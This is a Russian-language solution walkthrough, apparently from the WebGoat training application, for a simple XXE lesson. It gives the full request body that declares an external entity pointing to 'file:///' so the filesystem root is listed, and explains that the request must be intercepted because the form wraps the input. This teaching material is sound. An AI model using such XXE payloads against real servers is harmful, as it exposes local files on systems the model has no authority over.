 === Решение задания

Цель упражнения — перечислить корень файловой системы. Если мы сначала попробуем обычный пост, то увидим следующий запрос:

[source, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?><comment><text>Это мой первый комментарий, хорошая картинка</text></comment>
----

Веб-страница делает запрос xhr для публикации сообщения xml, после чего комментарий отображается в разделе комментариев. Теперь давайте попробуем немного изменить запрос, как показано в предыдущем разделе:

[source, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
----

Поэтому вместо включения конкретного файла мы делаем ссылку на корень файловой системы с помощью `file:///`. Если мы просто скопируем и вставим это в текстовое поле комментария, вы получите ошибку в теле ответа

[source,json]
----
{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : "...javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,44]\\nMessage: The processing instruction target matching \\\"[xX][mM][lL]\\\" is not allowed.]"
  "assignment" : "SimpleXXE",
  "attemptWasMade" : true
}
----

Это происходит из-за того, что JavaScript принимает входные данные и создает следующее сообщение:

[source%linenums, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?>
<comment>
  <text>
    <?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
  </text>
</comment>
----
Строка 7 содержит ввод, введенный в текстовое поле, если бы мы использовали форму комментария.

Чтобы решить урок, вам нужно перехватить весь исходящий запрос и заменить все тело решением. Смотрите наши уроки о перехвате HTTP-трафика.
